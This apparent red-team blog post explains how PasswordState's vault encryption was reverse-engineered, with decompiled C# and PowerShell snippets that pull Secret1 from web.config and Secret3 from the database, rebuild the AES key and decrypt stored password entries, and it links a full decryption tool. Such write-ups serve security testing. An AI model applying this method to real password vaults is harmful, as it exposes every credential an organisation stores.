



# Decrypting PasswordState entries
During one of our recent red teaming engagements we managed to get a foothold in a customer's domain. During our information gathering we stumbled upon a hidden backup share on one of the servers. The hidden share contained a database and webroot backup for the PasswordState ([website](https://www.clickstudios.com.au/)) password vault! PasswordState is an enterprise password management solution. This means we hit the jackpot, for obvious reasons.

Searching the Internet for a way to decrypt all password did not yield any results, so we decided to look into the product and write our own! 

This post starts with an overview how the encryption works and ends with a ready-to-go PowerShell script to use during your red teaming engagements.

## PasswordState Reversing
PasswordState installs itself to `C:\inetpub\PasswordState` by default. In this directory, the web application and service source code is installed. The `C:\inetpub\Passwordstate\bin` contains the executable file `Passwordstate.exe`, which is also the service binary. This is a perfect binary for starting our reverse engineering efforts, since this most likely contains either a reference to the code that decrypts passwords, or a reference to that code.

### Reversing password encryption
The binary is a .NET Framework 4.5 binary. Using [dnSpy](https://github.com/0xd4d/dnSpy) it's possible to decompile this binary into (mostly) readable source code. The binary contains several namespaces, the most interesting being `PasswordstateService`. This namespace contains the service class `PasswordstateService`. 

Looking through the methods of this class, the `AddPassword` function stands out. This function adds a password to the password database, encrypting the plaintext in the process. The decompiled code snippet below shows where the application encrypts the password before storing it in the database.

```c#
public string AddPassword(..., string InitialPassword, ...)
{
    ...
    oleDbCommand2.Parameters.AddWithValue("Password", this.AES_Encrypt(Conversions.ToString(num) + "¿" + InitialPassword));
    ...
}
```

The `AES_Encrypt` function encrypts the password. Apparently, this function uses the [`RijndaelManaged`](https://docs.microsoft.com/en-us/dotnet/api/system.security.cryptography.rijndaelmanaged) class in default mode and the [`AesCryptoServiceProvider`](https://docs.microsoft.com/en-us/dotnet/api/system.security.cryptography.aescryptoserviceprovider) class in FIPS mode. 

```c#
// PasswordstateService.PasswordstateService
// Token: 0x06000193 RID: 403 RVA: 0x0003EEA8 File Offset: 0x0003D0A8
public byte[] AES_Encrypt(string myString)
{
    byte[] array = new byte[0];
    bool flag = !this.FIPSMode;
    if (flag)
    {
        RijndaelManaged rijndaelManaged = new RijndaelManaged();
        rijndaelManaged.KeySize = 256;
        rijndaelManaged.BlockSize = 256;
        rijndaelManaged.Key = this.EncryptionKey;
        rijndaelManaged.GenerateIV();
        array = this.encryptStringToBytes_AES(myString, rijndaelManaged.Key, rijndaelManaged.IV);
        array = PasswordstateService.Combine(new byte[][]
        {
            array,
            rijndaelManaged.IV
        });
        rijndaelManaged.Dispose();
    }
    else
    {
        AesCryptoServiceProvider aesCryptoServiceProvider = new AesCryptoServiceProvider();
        aesCryptoServiceProvider.BlockSize = 128;
        aesCryptoServiceProvider.KeySize = 256;
        aesCryptoServiceProvider.Key = this.EncryptionKey;
        aesCryptoServiceProvider.GenerateIV();
        aesCryptoServiceProvider.Mode = CipherMode.CBC;
        aesCryptoServiceProvider.Padding = PaddingMode.PKCS7;
        byte[] bytes = Encoding.Default.GetBytes(myString);
        using (ICryptoTransform cryptoTransform = aesCryptoServiceProvider.CreateEncryptor())
        {
            byte[] array2 = cryptoTransform.TransformFinalBlock(bytes, 0, bytes.Length);
            array2 = PasswordstateService.Combine(new byte[][]
            {
                array2,
                aesCryptoServiceProvider.IV
            });
            array = array2;
        }
        aesCryptoServiceProvider.Dispose();
        aesCryptoServiceProvider = null;
    }
    return array;
}
```

In both cases, the encryption key is taken from a class property `EncryptionKey`. This property is set in the `JoinSplitSecrets` method of the same class. This method gets 4 secrets, 1 and 2 from the web.config file and 3 and 4 from the database. Secret 1 and 3 are then combined into the `EncryptionKey` and secret 2 and 4 are combined into the `HMACKey`. The diagram below shows which secrets are used for which key.



The simplified code snippet below shows this process for the `EncryptionKey`. 
```c#
public void JoinSplitSecrets()
{
    string value1 = "";
    string value3 = "";
    ...
        // get secrets from database
        string cmdText = "SELECT Secret3, Secret4 FROM [SystemSettings]";
    ...
                //assign secrets to variables
                value3 = oleDbDataReader["Secret3"].ToString();
    ...
    // get secret1 from web.config
    XmlNode xmlNode = xmlDocument.DocumentElement.SelectSingleNode("/configuration/appSettings/add[@key=\"Secret1\"]");
    ...
    value1 = xmlNode.Attributes.GetNamedItem("value").Value.ToString().ToLower();
    ...
    
    //append Secret1 and Secret3 to eachother
    StringBuilder stringBuilder = new StringBuilder();
    stringBuilder.AppendLine(value1);
    stringBuilder.AppendLine(value3);

    // Combine these secrets 
    CombinedSecret combinedSecret = SecretCombiner.Combine(stringBuilder.ToString());
    string recoveredTextString = combinedSecret.RecoveredTextString;
    ...
    // Set the encryption key!
    this.EncryptionKey = PasswordstateService.ToHexBytes(recoveredTextString);
}
```

The `SecretCombiner` class comes from the import `Moserware.Security.Cryptography` ([GitHub link](https://github.com/moserware/SecretSplitter)). This library allows a developer to split up secrets in two parts and store them apart from eachother. Combining both parts would lead to the original secret again. 

### Summary
Reversing the PasswordState decryption routine gives the following insights:
* The application generates 4 secrets, stores 2 in DB and 2 in web.config
* 1 secret from web.config and 1 from the DB generate
    * Encryption Key (secret 1 & 3)
    * HMAC Key (secret 2 & 4)
* Passwords are encrypted and stored using AES256-CBC and PKCS7

## Getting the necessary information
As stated before the application stores its secrets spread over the database and the web.config file. Getting the secret from web.config is easy using PowerShell, since PowerShell is capable of parsing XML files and performing XPath queries. Getting the secret is a simple as:

```powershell
[xml]$webConfig = Get-Content .\Examples\web.config
$secret1 = $webConfig.SelectSingleNode('/configuration/appSettings/add[@key="Secret1"]').value
```

In this code snippet we use XPath to select the necessary value.

Getting secret3 involves reading the database. As always, [StackOverflow](https://stackoverflow.com/questions/8423541/how-do-you-run-a-sql-server-query-from-powershell) has the answer. Using the code found in that post getting secret3 is as easy as:

```powershell
$secret3 = (Invoke-SQL -connectionString $ConnectionString -sqlCommand "SELECT secret3 FROM SystemSettings").secret3
```
Combining the secrets to get the encryption key is done like so (after loading in the Moserware DLL):

```powershell
$encryptionKey = [Moserware.Security.Cryptography.SecretCombiner]::Combine($Secret1 + "`n" + $Secret3).RecoveredTextString]
```

Note: this key is a hex-encoded variant of the actual key. Using a snippet from the [SANS](https://www.sans.org/blog/powershell-byte-array-and-hex-functions/) website we can transform it into a byte-array.

So now we have the key, we need to write the decryption function in PowerShell. As mentioned before, PowerShell is able to use the RijndaelManaged class directly. The snippet below shows how to decrypt one single entry. PasswordState uses a non-default Key and Block size.

```c#
$RijndaelManaged = new-Object System.Security.Cryptography.RijndaelManaged
$RijndaelManaged.KeySize = 256
$RijndaelManaged.BlockSize = 256;

$RijndaelManaged.Key = $EncryptionKey
$RijndaelManaged.IV = $InitVector

# Create Rijndael Decryptor with given parameters
$decryptor = $RijndaelManaged.CreateDecryptor($RijndaelManaged.Key, $RijndaelManaged.IV)
```

## Putting it all together
Combining the things we discovered above leads to a PowerShell script that runs on the PasswordState server itself. If ran on the PasswordState server itself, it only needs the `web.config` location (and the SecretSplitter.dll location if it's not installed to the default location).



Alternatively, you can export all necessary secrets and run from another host, as shown in the screenshot below. You just need the secret1 and secret3 value (or the EncryptionKey) and all entries in CSV format.



Please use PowerShell's Get-Help to find even more information on how to use this script!

The script can be found on [Northwave's GitHub](https://github.com/NorthwaveNL/passwordstate-decryptor).